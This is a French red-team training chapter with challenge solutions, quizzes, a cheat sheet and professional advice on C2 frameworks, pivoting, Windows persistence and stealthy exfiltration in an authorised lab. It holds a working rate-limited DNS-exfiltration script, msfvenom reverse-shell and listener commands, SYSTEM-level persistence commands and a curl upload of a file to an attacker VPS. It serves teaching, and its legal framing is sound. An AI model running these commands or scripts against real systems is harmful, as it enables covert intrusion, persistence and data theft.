# Étape 4 — preuve : afficher le contenu du flag et le copier dans ton carnet de preuves.
```

**Critère de réussite** : le flag est lu *à travers* le tunnel (jamais depuis une IP interne), et tu peux expliquer le rôle de chacune des 3 briques (serveur, client, proxychains).

---

### Challenge 3 — Difficile 🏰 « Exfiltrer un fichier via DNS sans être détecté (labo) »

#### Objectif

Sur un labo avec un « moniteur de trafic » (tu peux utiliser `tcpdump` sur le segment externe pour simuler la surveillance), exfiltrer un canari (`canary.txt`, ~2 Ko) via DNS **sans** créer un volume ou un rythme détectable : pas de grosse archive, pas de pic, découpe en petits morceaux espacés.

#### Indices

- Indice 1 : encode d'abord le fichier (base64) puis découpe en morceaux de 8-12 caractères. Un label DNS ne doit pas dépasser 63 octets, et une requête DNS normale a une taille bien plus petite que les gros blobs.
- Indice 2 : ralentis volontairement : un morceau toutes les 10 à 30 secondes, à des heures « normales ». Le but n'est pas la vitesse, c'est l'invisibilité. Utilise `sleep` entre les envois.
- Indice 3 : pour vérifier que tu n'as pas été « vu », surveille avec `tcpdump -i eth0 port 53` côté « moniteur » : les requêtes vers ton domaine doivent être noyées dans le reste du trafic DNS, sans pic identifiable. Regroupe ensuite les morceaux et décode.

#### Correction

```python
# dns_client_rate.py — exfil en bande limitée (morceaux espacés de 10 s)
#!/usr/bin/env python3
import socket, base64, time

data = open('canary.txt','rb').read()
b64 = base64.b64encode(data).decode().replace('+','-').replace('/','_')
SERVER = ('192.168.56.1', 53)
i = 0
while b64:
    chunk, b64 = b64[:12], b64[12:]
    qname = f'{i}{chunk}.exfil.lab'
    q = b'\x12\x34\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00'
    for part in qname.split('.'):
        q += bytes([len(part.encode())]) + part.encode()
    q += b'\x00\x00\x01\x00\x01'
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.sendto(q, SERVER); s.close()
    i += 1
    time.sleep(10)          # bande limitée : 1 morceau / 10 s
```

Côté serveur : réutilise le `dns_listener.py` de la démo 5, réassemble les morceaux par index, décode le base64, compare avec le fichier original (`diff`).

**Critère de réussite** : le fichier est reconstruit *et* l'analyse du trafic (avec `tcpdump`) ne montre pas de signal évident : pas de rafale de requêtes, pas de noms anormalement longs en série, un rythme qui se fond dans le trafic normal.

---

## Quiz

> ⚠️ **Légal** : toutes les questions d'application supposent un environnement
> de laboratoire autorisé ou un engagement avec mandat écrit. Un quiz ne
> remplace pas une autorisation — mais il vérifie que tu l'as bien comprise.

### (a) 20 QCM corrigés et expliqués

**Q1. Quelle est la différence fondamentale entre un pentest et un red team ?**
- a) Le pentest est payant, le red team est gratuit
- b) Le pentest évalue les vulnérabilités, le red team évalue la capacité d'un adversaire réaliste à atteindre des objectifs face à la défense
- c) Le red team n'utilise que des outils open source
- d) Il n'y a aucune différence, c'est un marketing différent

✅ **Réponse : b.** Le pentest produit une liste de vulnérabilités ; le red team simule un adversaire furtif qui cherche à atteindre des objectifs (crown jewels), face à une défense active, et mesure la détection.

**Q2. Que signifie l'acronyme ROE ?**
- a) Red Operation Environment
- b) Rules of Engagement
- c) Risk of Exploitation
- d) Rules of Execution

✅ **Réponse : b.** Les *Rules of Engagement* (règles d'engagement) définissent ce qui est autorisé, interdit, et les limites de l'exercice.

**Q3. Dans un red team, qui arbitre et gère les crises entre équipe rouge et équipe bleue ?**
- a) Le pentester le plus ancien
- b) La blue team
- c) La white cell
- d) L'éditeur de l'EDR

✅ **Réponse : c.** La white cell est l'arbitre neutre qui connaît les règles, relaie les informations nécessaires et gère les dérives (d'où l'expression « stop and ask »).

**Q4. Quelle tactique ATT&CK regroupe le phishing ?**
- a) TA0002 Execution
- b) TA0001 Initial Access
- c) TA0008 Lateral Movement
- d) TA0011 Command and Control

✅ **Réponse : b.** Le phishing est une technique d'accès initial (TA0001), identifiant T1566.

**Q5. Quel identifiant ATT&CK correspond au Kerberoasting ?**
- a) T1003.001
- b) T1558.003
- c) T1566.002
- d) T1053.005

✅ **Réponse : b.** Kerberoasting = T1558.003 (*Steal or Forge Kerberos Tickets : Kerberoasting*). T1003.001 est le dumping LSASS, T1566.002 le spearphishing link, T1053.005 la Scheduled Task.

**Q6. Que fait la commande `msfvenom -p windows/meterpreter/reverse_tcp LHOST=... LPORT=4444 -f exe` ?**
- a) Elle scanne une cible
- b) Elle génère un binaire Windows qui se connectera en retour vers LHOST:LPORT
- c) Elle installe un listener
- d) Elle casse un mot de passe

✅ **Réponse : b.** `msfvenom` *génère* le payload ; c'est `multi/handler` côté Metasploit qui *écoute*.

**Q7. Pourquoi un payload `windows/x64/meterpreter/reverse_tcp` avec `-e x86/shikata_ga_nai` échoue-t-il souvent ?**
- a) L'encodeur x86 ne fonctionne pas sur les payloads x64
- b) Le format exe n'est pas compatible
- c) L'option `-i` est obligatoire
- d) LHOST doit être une adresse publique

✅ **Réponse : a.** Les encodeurs x86 de Metasploit ne s'appliquent pas aux binaires x64 : la génération échoue (ou est incohérente). Les payloads x64 n'ont pas d'encodeur intégré dans Metasploit.

**Q8. Quel outil de C2 est open source ?**
- a) Cobalt Strike
- b) Sliver
- c) Aucun
- d) Les trois sont propriétaires

✅ **Réponse : b.** Sliver (Go) est open source et gratuit, comme Havoc et Mythic. Cobalt Strike est commercial et payant (licence annuelle par teamserver) — de bonnes alternatives open source existent.

**Q9. Que signifie « sleep 60 30 » sur un beacon Cobalt Strike ?**
- a) 60 secondes de sommeil avec 30 % de jitter (variation aléatoire)
- b) 60 minutes de sommeil et 30 secondes de travail
- c) 30 secondes de sommeil et 60 % de jitter
- d) Aucune de ces réponses

✅ **Réponse : a.** `sleep <secondes> <jitter %>` : le beacon dort ~60 s, avec une variation aléatoire de 30 % (entre ~42 et ~78 s) pour ne pas ressembler à une horloge.

**Q10. Quelle est la fonction d'un redirector dans une infrastructure C2 ?**
- a) Accélérer le beacon
- b) Masquer l'IP réelle du teamserver en relayant le trafic
- c) Chiffrer les mots de passe
- d) Scanner le réseau interne

✅ **Réponse : b.** Le redirector (socat, nginx, CDN, VPS jetable) reçoit le trafic externe et le renvoie au vrai teamserver, dont l'IP reste cachée.

**Q11. Quel est le mécanisme de persistance WMI standard ?**
- a) Une clé de registre Run
- b) Le trio EventFilter → EventConsumer → FilterToConsumerBinding
- c) Une entrée dans services.msc
- d) Un fichier dans le dossier Startup

✅ **Réponse : b.** La persistance WMI s'appuie sur ce trio (déclencheur, consommateur de commande, liaison), créé via `Set-WmiInstance`. Elle ne crée aucun fichier sur disque et survit aux reboots.

**Q12. Quelle commande crée une tâche planifiée qui relance un programme à l'ouverture de session ?**
- a) `schtasks /create /tn X /tr C:\p.exe /sc onlogon /ru SYSTEM /rl highest /f`
- b) `reg add ... /v X /d C:\p.exe`
- c) `sc create X binPath= C:\p.exe start= auto`
- d) `copy p.exe Startup\`

✅ **Réponse : a.** `schtasks` avec `/sc onlogon` (à chaque ouverture de session) et `/ru SYSTEM` (droits élevés). Les autres sont de la persistance par registre, service ou dossier Startup.

**Q13. Avec proxychains, quel type de scan nmap fonctionne ?**
- a) `-sS` (SYN scan)
- b) `-sT` (connect scan)
- c) `-sU` (UDP scan)
- d) Aucun

✅ **Réponse : b.** Le SYN scan envoie des paquets bruts que le proxy SOCKS ne peut pas transporter ; il faut `-sT` (et généralement `-Pn`).

**Q14. Quel port utilise l'agent ligolo-ng par défaut ?**
- a) 1080
- b) 11601
- c) 4444
- d) 8080

✅ **Réponse : b.** Le `proxy` ligolo-ng écoute par défaut sur le port 11601 ; l'agent s'y connecte avec `-connect <ip>:11601`.

**Q15. Quelle technique ATT&CK correspond au DNS exfiltration ?**
- a) T1041 (exfiltration via canal C2) uniquement
- b) T1048 / T1071.004 (protocole alternatif, application layer)
- c) T1190
- d) T1110

✅ **Réponse : b.** Exfiltrer dans des requêtes DNS relève de l'exfiltration par protocole alternatif (T1048) et de l'utilisation du protocole applicatif DNS (T1071.004).

**Q16. Pourquoi ne soumet-on jamais son payload à VirusTotal pendant un red team ?**
- a) C'est trop lent
- b) Cela partage le payload avec toute l'industrie AV, qui l'ajoutera à ses signatures (et avec la défense)
- c) VirusTotal est interdit par la loi
- d) VirusTotal ne détecte pas les payloads

✅ **Réponse : b.** Soumettre un payload à un service public d'analyse (VirusTotal) le rend public : l'AV du client finira par le détecter. On teste sur un labo local isolé.

**Q17. Qu'est-ce qu'un LOLBin ?**
- a) Un malware célèbre
- b) Un outil légitime du système détourné pour exécuter/télécharger du code malveillant
- c) Un binôme de red teamers
- d) Un format de payload

✅ **Réponse : b.** *Living Off the Land Binary* : `certutil`, `mshta`, `regsvr32`, `bitsadmin`… détournés pour faire le travail sans déposer de malware.

**Q18. Quelle est la différence entre exfiltrer via le canal C2 (T1041) et via un protocole alternatif (T1048) ?**
- a) Aucune
- b) T1041 utilise le canal déjà établi par le beacon ; T1048 utilise un protocole/canal différent (DNS, HTTP vers un autre serveur, e-mail)
- c) T1048 est toujours illégal
- d) T1041 ne marche que sur Linux

✅ **Réponse : b.** T1041 fait sortir les données par le trafic C2 existant ; T1048 crée un canal de sortie distinct (DNS, HTTP, stégano, e-mail), souvent pour contourner la surveillance du canal C2.

**Q19. En red team, qu'exfiltre-t-on pour prouver l'accès sans exposer le client ?**
- a) Les vrais fichiers sensibles
- b) Des « canaris » : fichiers factices fournis par le client
- c) Des logs de l'EDR
- d) Des mots de passe réels

✅ **Réponse : b.** On n'exfiltre jamais de données réelles : des fichiers canaris (fournis par le client) prouvent l'accès et l'exfiltration sans risque RGPD ni dommage.

**Q20. Quelle pratique est la signature d'un red teamer professionnel quand une action sort du cadre ?**
- a) Il continue et documente après coup
- b) Il s'arrête et demande à la white cell / au commanditaire une extension de scope
- c) Il demande au SOC
- d) Il abandonne l'exercice

✅ **Réponse : b.** Le « stop and ask » : on ne dépasse jamais le scope seul. On signale, on demande, on attend la décision — c'est la discipline légale et éthique du métier.

---

### (b) 10 Vrai / Faux justifiés

**V1. Un red team et un pentest produisent le même livrable.**
❌ **Faux.** Le pentest livre une liste de vulnérabilités scorées ; le red team livre des scénarios narratifs, des mesures de détection (temps de détection) et des recommandations stratégiques.

**V2. Sans autorisation écrite, un « red team » est une intrusion passible de poursuites.**
✅ **Vrai.** Le cadre légal (mandat, ROE, autorisation signée, scope) est ce qui distingue un exercice professionnel d'un délit d'intrusion.

**V3. Le jitter d'un beacon sert à rendre les appels C2 irréguliers pour éviter qu'ils ressemblent à une horloge.**
✅ **Vrai.** Une variation aléatoire (pourcentage) autour du sleep rend le trafic plus naturel et plus difficile à corréler.

**V4. `proxychains nmap -sS` fonctionne parfaitement à travers un tunnel SOCKS.**
❌ **Faux.** Le SYN scan émet des paquets bruts non transportables par un proxy SOCKS ; il faut `-sT` (connect scan) et généralement `-Pn`.

**V5. UPX est une technique d'évasion moderne fiable.**
❌ **Faux.** UPX est un packer ancien dont la signature est connue de tous les AV/EDR ; utile pour apprendre, pas pour un engagement réel.

**V6. La persistance WMI ne crée aucun fichier sur disque.**
✅ **Vrai.** Le trio EventFilter/EventConsumer/Binding s'enregistre dans le WMI Repository ; aucune écriture de fichier, d'où sa discrétion (mais il est détectable par des recherches dédiées comme Autoruns).

**V7. La « white cell » est l'équipe qui lance les scans.**
❌ **Faux.** La white cell est l'arbitre neutre (cadre, gestion des crises, relais d'informations), pas une équipe technique d'attaque.

**V8. Le DNS est un canal d'exfiltration intéressant car il est très souvent laissé ouvert sur les pare-feux.**
✅ **Vrai.** Le DNS est rarement bloqué (nécessaire à la navigation) ; encapsuler des données dans des requêtes DNS contourne les filtres applicatifs classiques.

**V9. ATT&CK est un outil d'attaque, réservé à l'équipe rouge.**
❌ **Faux.** ATT&CK est un vocabulaire commun attaque/défense : la blue team l'utilise pour bâtir ses règles de détection, et l'EDR/SIEM s'y réfèrent.

**V10. Exfiltrer un fichier réel du client est autorisé si « personne ne le verra ».**
❌ **Faux.** Jamais. On n'exfiltre que des canaris, et uniquement dans le cadre des ROE. Toucher aux données réelles (surtout personnelles, RGPD) est un délit et une faute professionnelle grave.

---

### (c) 10 questions ouvertes corrigées

**QO1. Explique en 5 lignes la différence entre red team et purple team.**
✅ **Corrigé.** Le red team est un exercice d'adversaire : une équipe rouge tente d'atteindre des objectifs face à une défense active, avec des règles (ROE), pendant des semaines, de façon furtive. Le purple team n'est pas un engagement mais une méthode : les équipes rouge et bleue travaillent ensemble, étape par étape, pour transformer chaque technique en règle de détection. Le red team mesure la défense ; le purple team l'améliore.

**QO2. Cite les 4 éléments indispensables de la préparation d'un red team.**
✅ **Corrigé.** 1) Le mandat (mission, commanditaire) ; 2) les ROE (techniques autorisées/interdites, bruit toléré) ; 3) le scope (IP, domaines, heures, environnements) ; 4) les crown jewels (objectifs mesurables) — plus le canal d'urgence et les stop conditions.

**QO3. Pourquoi un « zéro fichier » est-il la livraison de payload la plus discrète ?**
✅ **Corrigé.** L'AV scanne les fichiers au repos et l'EDR surveille les écritures de fichiers. Si le payload n'est jamais écrit sur disque (chargé et exécuté en mémoire via PowerShell `IEX` ou un stager), il n'existe aucune signature à trouver et aucun fichier à analyser — il ne reste qu'un comportement potentiellement corrélable, qui doit lui-même être rendu banal.

**QO4. Décris la différence entre chisel et ligolo-ng.**
✅ **Corrigé.** Chisel est un tunnel couche 4 : il ouvre un proxy SOCKS (ou des redirections de ports) sur ta machine ; chaque outil doit explicitement passer par ce proxy (ex. `proxychains`, `curl -x`). Ligolo-ng est un tunnel couche 3 : il crée une vraie interface réseau (`tun`) sur ta machine ; le réseau interne devient directement routable, sans proxy par outil. Chisel est plus simple/plus léger ; ligolo-ng plus transparent.

**QO5. Cite trois mécanismes de persistance Windows et classe-les par niveau de discrétion.**
✅ **Corrigé.** Du plus visible au plus discret : dossier Startup et clés Run (visibles dans Autoruns/shell:startup) → Scheduled Task (visible dans le Planificateur) → service Windows (visible dans services.msc) → WMI subscription et DLL hijacking (invisibles dans l'UI, détectables seulement par recherche dédiée).

**QO6. Qu'est-ce que le « malleable C2 » et pourquoi est-ce utile ?**
✅ **Corrigé.** C'est la personnalisation de l'apparence du trafic C2 (en-têtes HTTP, URLs, timings, structure des requêtes/réponses) pour que le trafic du beacon ressemble à celui d'un vrai client web (Office 365, Google, etc.). Utile pour passer sous une inspection applicative qui ne vérifie que l'« apparence » du trafic.

**QO7. Pourquoi le Kerberoasting est-il considéré comme bruyant, et quelle alternative discrète existe ?**
✅ **Corrigé.** Kerberoasting (T1558.003) génère une série de requêtes TGS pour des SPN de comptes de service — un pattern connu des règles de détection. Si on dispose déjà du hash de krbtgt, un Golden Ticket (T1558.001) permet d'usurper n'importe quel compte sans aucune requête ; sinon, réutiliser des tickets existants (Pass-the-Ticket, T1550) est souvent plus discret.

**QO8. Décris une exfiltration DNS en 4 étapes.**
✅ **Corrigé.** 1) Encoder le canari (base64) ; 2) découper en morceaux de 8-12 caractères (labels DNS ≤ 63 octets, caractères sûrs) ; 3) envoyer chaque morceau comme sous-domaine d'un domaine contrôlé, à rythme lent (bande limitée, ex. 1 morceau/10 s) vers un serveur de test ou un serveur de noms autoritaire ; 4) réassembler côté réception et décoder. La détection exige une corrélation dédiée (regroupement par domaine, noms trop longs, volume).

**QO9. Qu'est-ce qu'un canari et à quoi sert-il ?**
✅ **Corrigé.** Un fichier factice fourni par le client, placé là où se trouverait la donnée réelle (ex. `canary_facturation.xlsx`). Il sert de preuve d'accès et d'exfiltration sans jamais exposer de données réelles (protection RGPD, zéro impact réel). Toute exfiltration d'un canari doit être prévue dans les ROE.

**QO10. Que doit contenir la section « évaluation défensive » d'un rapport red team ?**
✅ **Corrigé.** Pour chaque étape du scénario : la technique utilisée (référence ATT&CK), si elle a été détectée, le délai de détection, les alertes générées, les données manquantes pour la détection (ex. « aucun log ne corrélait les appels DRSUAPI »). C'est la partie qui transforme l'exercice en plan d'action pour le SOC.

---

### (d) 5 exercices pratiques corrigés

**EX1. Rédige une ROE fictive complète.**
✅ **Corrigé attendu** (5 éléments minimum, tous présents et cohérents) :
- **Mandat** : objectif (ex. « atteindre le fichier de facturation »), commanditaire, durée, période.
- **Scope** : plages IP, domaines, environnements autorisés/interdits, plages horaires.
- **Techniques autorisées** : phishing limité à N e-mails, exploitation, persistance ; **interdites** : déni de service, exfiltration réelle, ciblage de personnes nommées.
- **Règles de sécurité** : canaris uniquement, contact d'urgence (white cell), stop conditions (« si action hors scope → stop »).
- **Signatures** : mandat signé par le commanditaire habilité, daté.
Une bonne ROE se fait *relire* par la white cell et archivée avec le contrat.

**EX2. Tu dois atteindre un DC qui n'est visible que depuis un réseau interne. Choisis une technique MITRE et justifie.**
✅ **Corrigé attendu.** La technique est le **tunneling** (T1572) avec un pivot : compromettre un hôte avec deux cartes (T1021 pour y accéder), déployer chisel ou ligolo-ng (T1572), puis utiliser proxychains (T1090, proxy) pour atteindre le DC. Justification : la segmentation empêche tout accès direct (donc pas de T1190 possible sur le DC) ; le pivot utilise les droits légitimes de la machine compromise, discrètement, avec un trafic chiffré.

**EX3. Planifie une exfiltration discrète d'un canari de 5 Ko dans un environnement où HTTPS sortant est inspecté.**
✅ **Corrigé attendu.** Choisir le **DNS** (T1048) car il est rarement inspecté : encoder le canari (base64), découper en morceaux ≤ 12 caractères, envoyer 1 morceau toutes les 10-30 s (bande limitée) vers un domaine contrôlé, réassembler côté serveur. Justifier : pas de pic, pas d'archive, pas de domaine inconnu en HTTPS — le DNS noie les requêtes dans le trafic normal. Mentionner la variante stéganographie (T1027.003) si l'inspection DNS est forte, et le cadrage ROE (quantité, durée).

**EX4. Compare les options de C2 pour un engagement de 3 semaines avec un budget nul.**
✅ **Corrigé attendu.** Choisir **Sliver** (gratuit, open source) : implants sur mesure multi-plateforme, listeners HTTP(S)/DNS/mTLS, sleep/jitter, sessions — adapté à un engagement de 3 semaines. **Havoc** ou **Mythic** en alternatives (interface GUI ou web, architecture modulaire). **Cobalt Strike** est écarté pour raison de coût (licence annuelle payante par teamserver) même s'il reste le standard de référence ; les alternatives open source couvrent l'essentiel des besoins pédagogiques et réels.

**EX5. Un beacon est détecté à la semaine 2. Écris ton plan d'adaptation (4 étapes).**
✅ **Corrigé attendu.** 1) **Diagnostic OPSEC** : identifier ce qui est brûlé (domaine, VPS, machine, compte) et couper proprement (extinction du listener, arrêt du beacon) ; 2) **Bascule** sur le canal de secours préparé à l'avance (DNS, second VPS, nouveau certificat/profil) ; 3) **Changement de vecteur** : nouvelle machine (compte inutilisé), réduction du bruit (sleep/jitter plus longs, outils en mémoire, wmiexec au lieu de RDP) ; 4) **Documentation** : horodater la détection, l'analyser, et en faire une section du rapport (« voici le signal que vous avez corrélé »).

---

## Cheat Sheet

> ⚠️ **Légal** : cette fiche est destinée à l'entraînement en laboratoire isolé
> et aux engagements avec mandat écrit. Toute utilisation sur un système réel
> sans autorisation est un délit.

### Framework — msfvenom et multi/handler

| Commande | Rôle |
| -------- | ---- |
| `msfvenom --list payloads | grep -i windows` | Lister les payloads Windows (vérifier les noms exacts) |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o p.exe` | Générer un binaire x64 |
| `msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=443 -f exe -o p.exe` | Générer un payload HTTPS (discret) |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f psh -o p.ps1` | Générer un payload PowerShell |
| `msfvenom -e x86/shikata_ga_nai -i 5` | Encodeur (x86 uniquement — pédagogique, détecté) |
| `upx --best p.exe -o p_upx.exe` | Packer UPX (pédagogique — signature connue) |

```bash
# multi/handler (listener) :
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp   # identique au payload généré !
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
run -j
sessions -l        # lister les sessions
sessions -i 1      # s'y attacher
```

**Pièges** : mismatch x86/x64 payload↔listener ; `LHOST` doit être l'IP joignable par la cible ; jamais de VirusTotal pour tester un payload (interdit en red team).

### Outils C2 — commandes de base

| Outil | Commandes essentielles |
| ----- | ---------------------- |
| **Sliver** | `generate --mtls 192.168.56.1 --os windows --arch amd64 --save implant.exe` → `mtls --lhost 0.0.0.0 --lport 8888` → `implants` → `sessions -i 1` → `shell` → `ps` → `upload` / `download` |
| **Havoc** | Serveur : `./havoc server --profile havoc.yaotl -v` · Client : `./havoc client` (GUI) |
| **Mythic** | `./mythic-cli start` (Docker) · génération de payloads et gestion via web UI |
| **Cobalt Strike** | `./teamserver <ip> <password>` · `./cobaltstrike` · beacon : `sleep <sec> <jitter%>` · **payant** — alternatives open source : Sliver, Havoc, Mythic |

**OPSEC de l'infra** : teamserver sur VPS jetable, redirectors (`socat`/nginx/CDN), certificats valides, sleep/jitter adaptés, canal de secours (DNS).

### Tunnels et pivot

| Outil | Commande | Usage |
| ----- | -------- | ----- |
| **chisel** | `./chisel server -p 8080 --reverse` | Serveur sur Kali |
| | `./chisel client <IP>:8080 R:1080:socks` | Proxy SOCKS5 sur la machine compromise |
| | `./chisel client <IP>:8080 R:9000:10.0.0.5:3389` | Redirection de port (RDP interne) |
| **ligolo-ng** | `sudo ip tuntap add user $(whoami) mode tun ligolo` + `sudo ip link set ligolo up` | Interface TUN |
| | `./proxy -selfcert` | Proxy sur Kali (console : `sessions` → `tunnel` → `start`) |
| | `./agent -connect <IP>:11601 -ignore-cert` | Agent sur la machine compromise |
| | `sudo ip route add 10.10.0.0/24 dev ligolo` | Route vers le réseau interne |
| **SSH** | `ssh -N -L 8080:10.0.0.5:80 user@jump` | Port forwarding local |
| | `ssh -N -D 1080 user@jump` | Proxy SOCKS dynamique |
| | `ssh -N -R 2222:127.0.0.1:22 user@pub` | Port inverse |
| **proxychains** | `/etc/proxychains4.conf` → `socks5 127.0.0.1 1080` | Config |
| | `proxychains4 -q nmap -sT -Pn 10.10.0.10` | Scan via tunnel (**toujours `-sT`**) |
| | `proxychains4 -q curl http://10.10.0.10/` | Requête via tunnel |

**Pièges** : `nmap -sS` ne passe pas par un proxy SOCKS ; oublier `--reverse`/`R:` ; oublier la route pour ligolo-ng ; tester le tunnel *après* l'engagement.

### Persistance Windows

| Mécanisme | Commande |
| --------- | -------- |
| Scheduled Task | `schtasks /create /tn "SvcUpdate" /tr "C:\ProgramData\u.exe" /sc onlogon /ru SYSTEM /rl highest /f` |
| Répétition | `schtasks /create /tn "SvcUpdate" /tr "C:\ProgramData\u.exe" /sc minute /mo 5 /ru SYSTEM /rl highest /f` |
| Clé Run (HKCU) | `reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v SvcUpdate /t REG_SZ /d "C:\ProgramData\u.exe" /f` |
| Service | `sc create SvcUpdate binPath= "C:\ProgramData\u.exe" start= auto` (attention : espace après `=`) |
| Startup | `copy u.exe "C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"` |
| WMI | Trio `Set-WmiInstance` : `__EventFilter` + `CommandLineEventConsumer` + `__FilterToConsumerBinding` (voir démo) |
| DLL hijack | Placer une DLL malveillante au chemin qu'un programme légitime recherche (T1574.001) |

**Vérification** : `schtasks /query /tn X /v /fo list` · `reg query "HKCU\...\Run"` · `sc qc X`.

### Exfiltration

| Voie | Commande / outil | Détection |
| ---- | ---------------- | --------- |
| C2 | `download` dans la session (Sliver/Havoc/Mythic) | Volume/timing du trafic C2 |
| HTTP | `curl -X POST --data-binary @canari.txt http://ton-vps/` | Domaine inconnu, MIME, volume |
| DNS | Script Python (démo 5), dnscat2, iodine | Corrélation DNS dédiée requise |
| Stégano | `steghide embed -cf img.jpg -sf out.jpg -ef notes.txt` / `steghide extract -sf out.jpg` | Inspection approfondie des médias |
| E-mail | `swaks --to x@y --from z@w --body ... --server smtp.lab` | Filtres/DLP |

**Bande limitée** : 1 morceau toutes les 10-30 s, `sleep` entre les envois, heures normales. **Canaris uniquement.**

### Proxychains (rappel)

```
# /etc/proxychains4.conf — en fin de fichier :
socks5 127.0.0.1 1080
# Usage : proxychains4 -q <commande>
# Pièges : -sT obligatoire pour nmap, -Pn pour la découverte ; pas d'ICMP via SOCKS.
```

### MITRE ATT&CK — ressources

| Ressource | URL / usage |
| --------- | ----------- |
| Matrice Enterprise | `attack.mitre.org` — explorer tactiques/techniques par plateforme |
| ATT&CK Navigator | `mitre-attack.github.io/attack-navigator/` — cartographier sa couverture |
| Sous-techniques clés du cours | T1053.005 (Scheduled Task), T1547.001 (Run/Startup), T1543.003 (Service), T1574.001 (DLL hijack), T1546.003 (WMI), T1558.001-.004 (tickets Kerberos), T1572 (tunneling), T1090 (proxy), T1041/T1048 (exfil) |
| Atomic Red Team | Suite d'exécutions « atomiques » de techniques ATT&CK pour tester la détection (à utiliser en labo) |

### Pièges et astuces (rappel)

- **ROE avant tout** : sans mandat écrit signé, aucune commande.
- Vérifier bitness et noms exacts avant `msfvenom`/listener.
- Tester payload, listener, tunnel et persistance **sur le labo avant l'engagement**.
- Jamais de données réelles : canaris seulement.
- Canal de secours (DNS) préparé avant l'accès initial.
- `-sT`/`-Pn` avec proxychains ; route `ligolo` après connexion de l'agent.
- Documenter (horodatage + ATT&CK) à chaque étape : c'est ton rapport et ta protection.

---

## Pièges fréquents

| # | Piège | Pourquoi ça arrive | Comment l'éviter |
| - | ----- | ------------------ | ---------------- |
| 1 | **Oublier la ROE / le mandat** | L'excitation de l'action prend le dessus ; « c'est pour la formation » | Rédiger mandat + ROE + scope avant la première commande ; les relire à chaque étape clé |
| 2 | **Être bruyant inutilement** | Réutiliser les habitudes de pentest : scans de masse, hydra en rafale, outils par défaut | En red team, le bruit est un choix : scans ciblés, sleep/jitter, techniques discrètes (T1550, ACL) plutôt que bruteforce |
| 3 | **Pas d'OPSEC** | On pense à l'attaque, pas à ce qu'elle laisse derrière | Check-list OPSEC à chaque étape : artefacts, identité, traces, preuves, communication chiffrée |
| 4 | **C2 détecté sans canal de secours** | Une seule infra, un seul domaine, un seul protocole | Préparer 2 canaux (HTTPS + DNS) et des VPS/domaines jetables avant l'accès initial |
| 5 | **Payload signé / signature détectée** | Croire que `shikata_ga_nai` ou UPX rendent indétectable | Tester sur labo isolé, recompiler ses implants (Go/Rust/Nim), zéro fichier, ne jamais soumettre à VirusTotal |
| 6 | **Persistance cassée au reboot** | Installer un mécanisme sans jamais le tester après redémarrage | Toujours valider : reboot simulé sur labo, `schtasks /run`, vérifier le retour du beacon avec listener actif |
| 7 | **Pas de sauvegarde de preuves** | On documente « dans sa tête » ; les logs disparaissent | `-oA` sur les scans, captures d'écran, fichiers de sortie horodatés, journal de commandes — sur un disque séparé |
| 8 | **Mismatch x86/x64 payload↔listener** | Ne pas vérifier l'architecture de la cible | `sysinfo`/`arch` avant de générer ; même payload et même bitness des deux côtés |
| 9 | **`nmap -sS` via proxychains** | Copier les habitudes de scan sans réfléchir au transport | `-sT` (connect scan) et `-Pn` avec un proxy SOCKS |
| 10 | **Tunnel mal déployé** | Oublier `--reverse`/`R:`, la route `ligolo`, ou les règles du pare-feu pivot | Suivre une checklist tunnel : serveur→client→vérif port (ss/curl)→scan |
| 11 | **Exfiltrer une vraie donnée « par erreur »** | Le canari ressemble à un vrai fichier ; on n'a pas vérifié le contenu | Vérifier le hash du canari avant exfiltration ; ne jamais ouvrir/copier de données réelles |
| 12 | **Confondre engagement et intrusion** | « On a le droit puisque c'est un test » — sans le document | L'autorisation écrite est ton seul permis : sans elle, aucune action. Même pour « aider un ami » |

---

## Conseils professionnels

1. **Documenter en continu** : chaque commande, chaque heure, chaque résultat, chaque échec. Le rapport final se construit pendant l'engagement, pas après — et ta protection légale aussi.
2. **Préparer l'infra C2 en amont** : teamserver, redirectors, domaines, certificats, canal de secours. En plein engagement, tu n'auras ni le temps ni la discrétion nécessaires pour monter ça.
3. **Varier les techniques et les C2** : ne jamais mettre tous ses œufs dans un seul protocole ou un seul outil. La redondance est la résilience.
4. **Connaître la défense** : savoir ce qu'un EDR remonte, ce qu'un SIEM corrèle, ce qu'un proxy loggue. L'évasion se conçoit depuis le point de vue de celui qui te cherche.
5. **Communiquer avec le client** : un canal direct vers la white cell pour les crises, un compte-rendu hebdomadaire, jamais de découverte importante gardée secrète. La confiance est le carburant du métier.
6. **Tester sur le labo avant l'engagement** : payload, tunnel, persistance, exfil — sur un environnement identique à la cible. L'improvisation sur site est la cause n°1 des échecs.
7. **Mesurer, pas seulement réussir** : le temps de détection, le nombre de machines touchées, les techniques non détectées valent plus que le crown jewel lui-même. C'est ce que paie le client.
8. **Respecter l'humain** : le phishing d'un employé doit être professionnel et suivi d'un debriefing bienveillant. Jamais d'humiliation, jamais de ciblage gratuit : un exercice raté laisse des séquelles humaines.
9. **Nettoyer après soi** : retirer les persistances (sauf celles documentées pour la blue team), fermer les comptes créés, effacer les fichiers déposés. Le labo ou l'entreprise doit être rendu propre.
10. **Se former en continu** : le red team évolue chaque mois (nouveaux EDR, nouvelles techniques ATT&CK, nouveaux outils). Les certifications et la pratique sur plateformes restent le meilleur investissement.

---

## Résumé

### Synthèse visuelle : phase → techniques → outils → livrable

| Phase | Techniques ATT&CK | Outils | Livrable |
| ----- | ----------------- | ------ | -------- |
| Préparation | — | Contrats, check-lists | Mandat + ROE + scope + crown jewels signés |
| Accès initial | T1566, T1190, T1189 | Gophish, Evilginx2, `swaks`, Metasploit | Premier accès (identifiants, session) |
| Livraison payload | T1027, T1036, T1140 | `msfvenom`, Veil, UPX, LOLBins (`certutil`, `mshta`, `IEX`) | Payload exécuté, zéro fichier si possible |
| Persistance | T1053.005, T1547.001, T1543, T1546, T1574 | `schtasks`, `reg`, `sc`, `Set-WmiInstance`, DLL | Accès qui survit au reboot (≥ 2 mécanismes) |
